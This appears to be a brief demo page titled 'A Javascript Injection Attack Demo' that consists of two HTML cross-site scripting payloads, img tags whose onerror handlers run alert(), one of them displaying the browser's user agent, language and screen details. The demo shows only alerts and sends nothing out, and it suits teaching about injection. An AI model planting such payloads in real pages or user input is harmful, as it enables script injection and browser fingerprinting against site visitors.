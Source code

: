 # A Javascript Injection Attack Demo
```html
<img src onerror='alert("THIS IS AN ATTACK")'>
<img src onerror='alert(`Agent: ${navigator.userAgent}\n Language: ${navigator.language}\n Screen Res.: ${screen.width}x${screen.height}\n Color depth: ${screen.colorDepth}`)'>
```